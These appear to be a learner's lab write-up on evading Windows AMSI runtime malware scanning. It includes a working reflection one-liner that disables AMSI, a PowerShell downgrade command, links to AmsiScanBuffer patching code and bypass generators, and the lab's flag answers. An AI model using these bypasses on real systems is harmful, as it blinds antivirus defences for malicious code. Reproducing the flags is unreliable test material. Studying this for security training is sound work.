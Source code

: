 # Runtime Detection Evasion - Hard

1. [Runtime Detections](#runtime-detections)
2. [AMSI Overview](#amsi-overview)
3. [AMSI Instrumentation](#amsi-instrumentation)
4. [PowerShell Downgrade](#powershell-downgrade)
5. [PowerShell Reflection](#powershell-reflection)
6. [Patching AMSI](#patching-amsi)
7. [Automating for Fun and Profit](#automating-for-fun-and-profit)

## Runtime Detections

* CLR (Common Language Runtime) and DLR (Dynamic Language Runtime) are the runtimes for .NET and are used in Windows systems.

* A runtime detection measure will scan code before execution in the runtime and determine if it is malicious or not; if code is suspected to be malicious, it will be assigned a value, and if within a certain range, it will stop execution, quarantine and/or delete the file.

* Runtime detection measures are different from standard AV because they scan directly from memory and runtime.

* AMSI (Anti-Malware Scan Interface) is a runtime detection measure shipped natively with Windows.

```markdown
1. What runtime detection measure is shipped natively with Windows? - AMSI
```

## AMSI Overview

* AMSI is a PowerShell security feature that will allow any app/service to integrate directly into anti-malware products.

* AMSI will determine its actions from a response code (reported on AMSI backend), as a result of monitoring & scanning:

  * AMSI_RESULT_CLEAN = 0
  * AMSI_RESULT_NOT_DETECTED = 1
  * AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384
  * AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479
  * AMSI_RESULT_DETECTED = 32768

```markdown
1. What response value is assigned to 32768? - AMSI_RESULT_DETECTED
```

## AMSI Instrumentation

* AMSI is instrumented from ```System.Management.Automation.dll```, a .NET assembly developed by Windows.

```markdown
1. Will AMSI be instrumented if the file is only on disk? - N
```

## PowerShell Downgrade

```shell
#downgrade PowerShell version in cmd.exe
PowerShell -Version 2

#get flag
type .\Desktop\flag.txt
```

```markdown
1. Enter the flag obtained from the desktop after executing the command in cmd.exe. - THM{p0w3r5h3ll_d0wn6r4d3!}
```

## PowerShell Reflection

* Reflection allows user to access & interact with .NET assemblies.

* PowerShell reflection can be abused to modify & identify info from valuable DLLs.

```shell
#in cmd
PowerShell [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

```markdown
1. Enter the flag obtained from the desktop after executing the command. - THM{r3fl3c7_4ll_7h3_7h1n65}
```

## Patching AMSI

* The ```AmsiScanBuffer``` function is vulnerable because ```amsi.dll``` is loaded into the PowerShell process at startup; our session has the same permission level as the utility.

* ```AmsiScanBuffer``` will scan a 'buffer' of suspected code and report it to ```amsi.dll``` to get response; we can control this function and overwrite the buffer with a clean return code.

* We can use the [given exploit](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs) for AmsiScanBufferBypass.

```markdown
1. Enter the flag obtained from the desktop after executing the command. - THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}
```

## Automating for Fun and Profit

* [amsi.fail](http://amsi.fail/)
* [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
